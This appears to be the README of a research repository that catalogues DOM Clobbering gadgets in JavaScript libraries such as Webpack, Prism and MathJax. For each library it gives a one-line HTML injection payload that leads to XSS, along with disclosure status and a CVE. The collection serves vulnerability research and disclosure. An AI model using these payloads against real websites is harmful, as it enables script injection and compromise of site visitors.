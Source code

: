 # DOM Clobbering Collection

In this repo, we collect a list of client-side libraries that are either vulnerable to HTML injection or contain DOM Clobbering gadgets that lead to severe consequences, e.g., XSS.

## DOM Clobbering Gadgets

| Library | Stars | Version | Payloads | Impact | Found By | Status | CVE |
|:-------:|:-----:|:-------:|----------|:------:|:--------:|:------:|:---:|
| [AddToAny](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/addtoany.md) | N/A |N/A | ```<img src="https://addtoany.xxx.xxx" name="currentScript">``` | XSS | TheHulk | Patched | N/A |
| [doomcaptcha](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/doomcaptcha.md) | 1K |latest | ```<img name="currentScript" label="<script>alert(1)</script>"></img>``` | XSS | TheHulk | Mitre | N/A |
| [Google Client API](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/google-client-api.md) | N/A |5BIk7BglYEE | ```<iframe name="scripts" src=”https://apis.google.com/js/api.js”></iframe><iframe name="scripts" src=”https://apis.google.com/js/api.js”>alert(1)</iframe>``` | XSS | TheHulk | Patched | N/A |
| [Google Closure](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/google-closure-library.md) | 4.9K |v20230103 | ```<img name="currentScript" src="https://xxx.xxx.xxx/base.js"></img>``` | XSS | TheHulk | Reported | N/A |
| [inspire.js](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/inspire.js.md) | 1.7k |v1.10 | ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img>``` | XSS | TheHulk | Reported | N/A |
| [MathJax](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mathjax.md) | 10.1K |v2.7.x | ```<a id="MathJax"></a> <a id="MathJax" name="root" href="https://xxx.xxx.xxx"></a>``` | XSS | TheHulk | Reported | N/A |
| [MathJax](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mathjax3.md) | 10.1K |v3.2.2 | ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img> $$\require{tex}$$``` | XSS | TheHulk | Reported | N/A |
| [Mavo](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mavo.md) | 2.8k |v0.3.2 | ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img>``` | XSS | TheHulk | Reported | N/A |
| [pagefind](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/pagefind.md) | 3.3K |v1.1.0 | ```<img name="currentScript" src="blob:https://xxx.xxx.xxx/ui.js"></img>``` | XSS | TheHulk | Reported | N/A |
| [polyfills](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/polyfills.md) | 1.1K |v2.8.0 | ```<a id="ShadyDOM"></a><a id="ShadyDOM" name="force"></a><a id="WebComponents"></a><a id="WebComponents" name="root" href="https://xxx.xxx.xxx"></a>``` | XSS | TheHulk | N/A | N/A |
| [Prism](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/prism.md) | 12.2K |v1.29.0 | ```<img name="currentScript" src="https://xxx.xxx.xxx/a.js"></img>``` | XSS | TheHulk | Reported | N/A |
| [rspack](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/rspack.md) | 8.6K |v1.0.0-rc.0 | ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img>``` | XSS | TheHulk | N/A | N/A |
| [Stage.js](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/stage.js.md) | 2.4K |v1-alpha | ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img>``` | XSS | TheHulk | Reported | N/A |
| [steal](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/steal.md) | 1.4K |v2.3.0 | ```<img name="currentScript" src="https://xxx.xxx.xxx"><img>``` | XSS | TheHulk | Mitre | N/A |
| [tsup](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/tsup.md) | N/A |N/A | ```<img src="https://xxx.xxx.xxx" name="currentScript">``` | XSS | TheHulk | N/A | N/A |
| [UMeditor](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/umeditor.md) | 1.4k |v1.2.2 | ```<a id="UMEDITOR_HOME_URL" href="https://special-memory-pp75xj6xvjrcrjx7-8001.app.github.dev/"></a>``` | XSS | TheHulk | Reported | N/A |
| [Webpack](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/webpack.md) | 64.4K |v5.93.0 | ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img>``` | XSS | TheHulk | Patched | CVE-2024-43788 |
